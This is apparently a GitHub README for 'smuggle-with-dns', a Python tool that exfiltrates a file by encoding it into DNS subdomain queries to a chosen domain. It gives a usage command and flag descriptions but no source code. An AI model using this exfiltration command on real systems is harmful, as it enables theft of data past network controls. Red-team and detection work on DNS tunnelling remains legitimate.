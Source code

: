 # smuggle-with-dns
exfiltrate file with dns (for now)


simple tool to exfiltrate file with dns


# Usage
```bash
python3 swd.py --file path_to_file --domain root_domain --buffer length_of_string
```

# Setup
- ``` <i> -h => help menu </i> ```
- ``` <i> --file => path of file </i> ```
- ``` <i> --domain => root domain to send request </i> ``` 
- ``` <i> --buffer => subdomain string size, default 16 </i> ```
